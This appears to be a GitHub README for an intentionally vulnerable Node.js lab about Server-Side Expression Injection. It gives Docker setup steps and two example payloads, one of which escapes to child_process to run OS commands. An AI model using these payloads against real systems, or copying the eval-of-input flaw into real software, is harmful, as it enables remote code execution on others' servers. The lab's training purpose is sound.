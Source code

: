 # dotpirate-vuln-labs
A curated collection of vulnerable web applications and code labs for security enthusiasts, penetration testers, and CTF players. Explore, learn, and practice Server-Side Expression Injection (SSEI), code injection, and other common web vulnerabilities in a safe, hands-on environment.

# 🧠 Server-Side Expression Injection (SSEI) Vulnerable Lab

Welcome to the **SSEI-Lab**, a purposely vulnerable web app built to help security professionals, CTF players, and students learn how Server-Side Expression Injection vulnerabilities work — including how they can lead to Remote Code Execution (RCE).

## 🚀 About This Lab

This Docker-based lab contains a **Node.js web application** that evaluates user-supplied mathematical expressions — similar to many real-world calculators — but with a vulnerability: **user input is evaluated directly**.

### Vulnerability

This lab demonstrates **Server-Side Expression Injection (SSEI)**, which can be exploited to execute arbitrary JavaScript and eventually run **OS-level commands**.

---

## 🧰 Technologies

- Node.js 18
- Express.js
- Minimal frontend (HTML + jQuery)
- Docker

---

## 🐳 How to Use

### Step 1: Build the Docker Image

```bash
git clone https://github.com/YOUR_USERNAME/ssei-lab.git
cd ssei-lab
sudo docker build -t ssei-lab .
```
#### On Kali Use the following

```bash
sudo apt update
sudo apt install -y docker.io
sudo systemctl start docker
git clone https://github.com/YOUR_USERNAME/ssei-lab.git
cd ssei-lab
sudo docker build -t ssei-lab .
```

### Step 2: Run the Docker

```bash
sudo docker run -p 3000:3000 ssei-lab
```

Then visit http://localhost:3000

### 🎯 Example Exploit
Once running, enter this payload into the input field:
```js
[]["constructor"]["constructor"]("return process")()
```

Or for command execution:
```js
[]["constructor"]["constructor"]("return global.process.mainModule.require('child_process').execSync('id').toString()")()
```

### 🔐 Disclaimer

This is for educational purposes only. Do NOT deploy this lab on a public server or use it for anything unethical.
